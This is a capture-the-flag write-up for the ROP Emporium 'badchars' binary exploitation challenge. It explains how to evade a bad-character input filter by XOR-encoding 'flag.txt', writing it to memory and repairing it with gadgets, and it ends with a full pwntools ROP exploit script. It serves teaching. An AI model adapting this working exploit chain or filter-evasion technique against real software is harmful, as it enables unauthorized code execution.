 # Badchars
This challenge is a follow-up to the [write4](https://github.com/TSpeel/writeups/tree/main/pwn/ROPEmporium4_write4) challenge.
We again have to write `flag.txt` to memory and call `print_file()` with a pointer to it. 
However, this time there is a input filter present that replaces part of the payload if our payload contains the characters `x`, `g`, `a` or `.`.
This input filter works by comparing payload bytes to the ASCII values of these characters, so the addresses we use must also avoid these values.

## The plan
To evade the input filter, we can try to smuggle our string `flag.txt` into memory by altering the values when writing them, and using gadgets to repair them after they are written. 

We can write to the address `0x601028`, which is the `.bss` segment as in the write4 challenge. The gadget we can use for writing is slightly different this time: `mov qword [r13],r12; ret`. We can use this gadget to write `flag.txt` XOR'd with an arbitrary value to `0x601028`, and then XOR the written string back to `flag.txt` with a XOR gadget: `xor byte ptr [r15], r14b; ret`. 
We also have a useful gadget to set `r12`, `r13`, `r14` and `r15`: `pop r12,r13,r14,r15; ret`.

This allows us to create a write function as follows:
```
def write8bytesandxor(writable_address, bytestr):
    pop_gadget       = 0x40069c # pop r12,r13,r14,r15
    pop_rdi_gadget   = 0x4006a3
    write_mov_gadget = 0x400634 # mov qword [r13],r12
    xor_gadget       = 0x400628 # xor byte ptr [r15], r14b
    pop_r15_gadget   = 0x4006a2

    # Write string to memory and prepare for XORing
    payload  = p64(pop_gadget)
    payload += p64(u64(bytestr)) # r12, contains qword string to write
    payload += p64(writable_address) # r13, contains address to write to
    payload += p64((17)) # r14, contains 8 bit value to XOR written string with
    payload += p64(writable_address) # r15, contains the address of written string to XOR 
    payload += p64(write_mov_gadget)

    # XOR the written string back to the original string byte by byte
    payload += p64(xor_gadget)
    for i in range(1,8):
        payload += p64(pop_r15_gadget)
        payload += p64(writable_address+i)
        payload += p64(xor_gadget)
    return payload

```
In this function we use the value 17 to XOR. This is an arbitrary choice, most values under 8 bits will work, as long as the result of the XOR does not contain the blacklisted characters `x`, `g`, `a` and `.`. The value has to be under 256, as the gadget `xor byte ptr [r15], r14b; ret` only takes the lowest 8 bits of `r14`.

## Nearly there
Using this function to smuggle `flag.txt` into memory, we can now call `print_file()` with the address of our string:
```
io = start()

pop_rdi_gadget   = 0x4006a3
print_file_plt   = 0x400510
writable_address = 0x601028 # in .bss

payload = b"A" * 40

goal_string = b"flag.txt"

# Stage 1, write "flag.txt" to writable_address
# Choice of 17 is arbitrary, most values under 256 should work
payload += write8bytesandxor(writable_address, bytes([x^17 for x in goal_string]))

# Stage 2, call print_file_plt() with address of written string
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
```
Running this script, we get the following output:
```
Failed to open file: flag.tit
```
It seems our plan worked, but for some reason the `x` has been replaced with `i`. Initially, it seemed this could have been caused by the value we XOR with. Perhaps the ASCII value of `x` XOR'd with 17 is a blacklisted character?
However, the ASCII value of `x` is 120, and `120^17=105`, which is the ASCII value of `i`. There is thus something else at play.

Using GDB to step through the exploit, we can see that the character `i` is written to the address `0x60102e`.
This is what is causing the problem! `2e` is the ASCII value of `.`. 
Thus when we try to XOR `i` back to `x` by loading the address `0x60102e` for our XOR gadget, the address is replaced as the filter replaces the value `2e`.
We can solve this by choosing a different location to write our string to, such as the `.data` segment at `0x601038`.

## Final exploit
Now we have eliminated all blacklisted characters from our payload, and we can succesfully print the flag!
The final exploit script is as follows:

```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./badchars"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT STARTS HERE
# ===========================================================

def write8bytesandxor(writable_address, bytestr):
    pop_gadget       = 0x40069c # pop r12,r13,r14,r15
    pop_rdi_gadget   = 0x4006a3
    write_mov_gadget = 0x400634 # mov qword [r13],r12
    xor_gadget       = 0x400628 # xor byte ptr [r15], r14b
    pop_r15_gadget   = 0x4006a2

    # Write string to memory and prepare for XORing
    payload  = p64(pop_gadget)
    payload += p64(u64(bytestr)) # r12, contains qword string to write
    payload += p64(writable_address) # r13, contains address to write to
    payload += p64((17)) # r14, contains 8 bit value to XOR written string with
    payload += p64(writable_address) # r15, contains the address of written string to XOR 
    payload += p64(write_mov_gadget)

    # XOR the written string back to the original string byte by byte
    payload += p64(xor_gadget)
    for i in range(1,8):
        payload += p64(pop_r15_gadget)
        payload += p64(writable_address+i)
        payload += p64(xor_gadget)
    return payload


io = start()

pop_rdi_gadget   = 0x4006a3
print_file_plt   = 0x400510
writable_address = 0x601038 # in .data instead of .bss
# part of .bss 0x60102e ends with 2e which is the ASCII code of .

payload = b"A" * 40

goal_string = b"flag.txt"

# Stage 1, write "flag.txt" to writable_address
# Choice of 17 is arbitrary, most values under 256 should work
payload += write8bytesandxor(writable_address, bytes([x^17 for x in goal_string]))

# Stage 2, call print_file_plt() with address of written string
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
```
